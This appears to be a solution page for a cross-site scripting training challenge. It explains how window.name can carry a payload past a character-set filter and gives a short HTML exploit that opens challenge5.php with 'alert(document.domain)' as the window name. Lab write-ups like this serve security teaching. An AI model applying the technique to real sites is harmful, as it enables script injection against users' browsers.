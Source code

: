 # Challenge 5
Solution and further references for *challenge 5*.

<details>
 <summary>Spoiler: Solution for challenge 5</summary>

**Payload**:
Due to the limitation regarding the character set, one could for instance use `window.name` to pass the required `document.domain` to the vulnerable code snippet. 

Thus, to exploit the vulnerability, one needs to set `window.name` to `alert(document.domain)` and then browse to `challenge5.php?q=name`. 

**Exploit**:
```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <script>
      open("challenge5.php?q=name", "alert(document.domain)")
    </script>
  </body>
</html>
```
</details>

## References
Additional information:
* https://developer.mozilla.org/de/docs/Web/API/Window/name
* https://developer.mozilla.org/en-US/docs/Web/API/Window/open